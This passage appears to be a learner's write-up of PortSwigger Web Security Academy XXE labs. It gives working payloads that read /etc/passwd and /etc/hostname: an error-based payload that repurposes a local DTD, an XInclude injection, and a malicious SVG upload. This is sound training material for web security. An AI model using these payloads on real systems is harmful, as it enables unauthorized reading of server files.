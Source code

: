 - Error message containing the contents of the `/etc/passwd` file.

  

Lab 07: Exploiting XXE to retrieve data by repurposing a local DTD

- Check stock and send the POST request to repeater.

- Inserting in between XML declaration

```

<!DOCTYPE message [

<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

<!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">

<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">

&#x25;eval;

&#x25;error;

'>

%local_dtd;

]>

```

Lab 08: Exploiting XInclude to retrieve files

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic [XXE](https://portswigger.net/web-security/xxe) attack.

Technique:
`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`

Lab 09:  Exploiting [XXE](https://portswigger.net/web-security/xxe) via image file upload

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

Technique:
`<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`

